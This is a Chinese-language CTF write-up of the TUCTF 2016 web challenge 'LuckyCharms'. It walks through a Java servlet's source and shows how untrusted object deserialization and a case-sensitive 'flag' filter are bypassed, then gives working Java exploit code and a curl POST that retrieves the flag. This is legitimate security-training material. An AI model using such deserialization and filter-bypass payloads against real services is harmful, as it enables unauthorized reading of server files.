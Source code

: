 ```yaml
---
layout:     post
title:      "tuctf2016-web-LuckyCharms"
date:       2016-05-30 01:00
category:   writeup
tag:        [tuctf2016,代码审计,文件读取]
---
```

# 题目信息

`score: 200` `type:web,代码审计，文件读取` `source: tuctf2016`

[原题地址](http://146.148.10.175:1033/LuckyCharms) &emsp;[猜解源码](http://github.com/ssst0n3/ctf-wp/2016/tuctf/web/LuckyCharms)
&emsp;[题目收集](http://ctf.a306.xyz:8000/LuckyCharms/LuckyCharms)

## 题目描述

打开网址，一个简单的网页

![](tuctf2016-LuckyCharms-1.png)

## 知识点

servlet
* web.xml
* init(),doGet(),doPost()

curl使用

# 题目分析

## 查看源代码

页面本身没什么特别的，查看源代码发现一段注释

```
<!DOCTYPE html>
<html>
<body>
Frosted Lucky Charms,
<br>
They're magically delicious!
<br>
<img src="https://upload.wikimedia.org/wikipedia/en/f/ff/Lucky-Charms-Cereal-Box-Small.jpg">
<!-- <a href="/?look=LuckyCharms.java"></a> -->
</body>
</html>
```

## 访问链接

访问`view-source:http://ctf.a306.xyz:8000/LuckyCharms/LuckyCharms?look=LuckyCharms.java`,得到`LuckyCharms.java`源代码，由此可知本题为`java代码审计`+`文件内容读取`

![](tuctf2016-LuckyCharms-2.png)

## 分析源码

代码主要是定义了一个读取文件内容的操作，根据windows和unix对大小写是否敏感以及get和post请求的差别进行了区分，设计了一定的过滤规则。我们的任务就是首先分析源码，然后绕过过滤规则

### 定义文件类

定义OSFile类，包含file属性，表示文件名；getFileName函数，在返回文件名之前对文件名做一定的处理

```
abstract class OSFile implements Serializable {
  String file = "";
  abstract String getFileName();
}
```

定义WindowsFile类，继承OSFile，因为windows对大小写不敏感，因此把文件名转换成小写

```
class WindowsFile extends OSFile  {
  public String getFileName() {
    //Windows filenames are case-insensitive
    return file.toLowerCase();
  }
}
```

定义UnixFile类，继承OSFile，因为unix对大小写敏感，因此不用转换

```
class UnixFile extends OSFile {
  public String getFileName() {
    //Unix filenames are case-sensitive, don't change
    return file;
  }
}
```

### 重写doGet(),doPost()

#### 获取文件名

```
OSFile osfile = null;
try {
  //如果将内容以post方式传输，则读取，否则跳至catch
  osfile = (OSFile) new ObjectInputStream(request.getInputStream()).readObject();
} catch (Exception e) {
  //Oops, let me help you out there
  //创建windowsFile,注意这里是对大小写不敏感的
  osfile = new WindowsFile();
  if (request.getParameter("look") == null) {
    osfile.file = "charms.html";
  } else {
    osfile.file = request.getParameter("look");
  }
}
```

#### 过滤以及输出文件内容

```
//对'/'进行转义
String f = osfile.getFileName().replace("/","").replace("\\","");

//如果文件名存在'flag'，则过滤
//注意，contains函数是大小写敏感的

if (f.contains("flag")) {
  //bad hacker!
  out.println("You'll Never Get Me Lucky Charms!");
  return;
}

//将文件名转换成小写形式
try {
  Path path = Paths.get(getServletContext().getRealPath(f.toLowerCase()));
  System.out.print(path);
  String content = new String(java.nio.file.Files.readAllBytes(path));
  out.println(content);
 } catch (Exception e) {
    out.println("Nothing to see here");
 }
```

#### 分析漏洞

我们注意到contains函数是对大小写敏感的，考虑是否能从此绕过

因为get请求创建的是WindowsFile类的对象，因此无法绕过contains()对"flag"的过滤

而UnixFile类没有对文件名进行大小写转换，因此可以使用类似"FLAG"的文件名绕过过滤

而GET请求使用的是WindowsFile类，因此必须通过POST请求传输一个UnixFile对象，该对象的file属性为"FLAG"

#### Exploit
```
import java.io.*;


abstract class OSFile implements Serializable {
  String file = "";
  abstract String getFileName();
}

class UnixFile extends OSFile {
  public String getFileName() {
    //Unix filenames are case-sensitive, don't change
    return file;
  }
}


public class Hax {

    public static void main(String[] args) {
    UnixFile f = new UnixFile();
        f.file = "FLAG";
    try
    {
        FileOutputStream fileOut = new FileOutputStream("/tmp/Hax.bin");
            ObjectOutputStream out = new ObjectOutputStream(fileOut);
            out.writeObject(f);
            out.close();
            fileOut.close();
            System.out.printf("Serialized data is saved in /tmp/Hax.bin\n");
        }catch(IOException i)
        {
            i.printStackTrace();
        }

    }

}
```

```
$ javac Hax.java && java Hax
Serialized data is saved in /tmp/Hax.bin
$file /tmp/Hax.bin
Hax.bin: Java serialization data, version 5
$ curl -X POST --data-binary @Hax.bin 'http://ctf.a306.xyz:8000/LuckyCharms/LuckyCharms'
TUCTF{a_cup_of_joe_keeps_the_hackers_away}
```

# 参考文献

https://github.com/smokeleeteveryday/CTF_WRITEUPS/tree/master/2016/TUCTF/web/LuckyCharms
